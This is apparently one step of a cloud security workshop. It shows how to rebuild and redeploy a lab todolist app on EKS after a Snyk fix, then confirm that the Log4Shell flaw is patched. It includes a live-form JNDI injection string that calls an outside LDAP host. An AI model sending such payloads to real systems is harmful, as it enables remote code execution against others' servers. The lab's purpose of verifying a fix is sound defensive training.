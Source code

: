 +++
title = "Step 9: Verify the Vulnerability is no longer exploitable."
chapter = false
weight = 44
+++

## Update your Cloud9 working branch

Back in Cloud9, pull the latest changes, including the Snyk Fix, to the working environment.

```sh
git pull
```

## Re-build the Image
Now build and push the container to ECR (make sure you are cd'ed into the todolist directory).

```sh
docker build -t $REPO/todolist:latest .
docker push $REPO/todolist:latest
```

## Re-deploy the Application to EKS

After pushing the image to ECR, push it to EKS by scaling the goof deployment with kubectl. The deployment's ImagePullPolicy forces EKS to pull the latest image from ECR.

```sh
kubectl scale deployment todolist --replicas=0
kubectl scale deployment todolist --replicas=1
```

## Verify the Exploit no longer works

Refresh your broweser tab on the todolist app and log back in (user: foo@bar.org, password: foobar) and submit the same JDNI search string:

* User:
```bash
foo@bar.org
```
* Password:
```bash
foobar
```
Enter search string
```bash
${jndi:ldap://ldap.darkweb:80/#Vandalize}
```

The page will not show the graphiti because the newer version on Log4J no longer is vulnerable!

![todolist-fixed](/images/todolist-fixed.png)
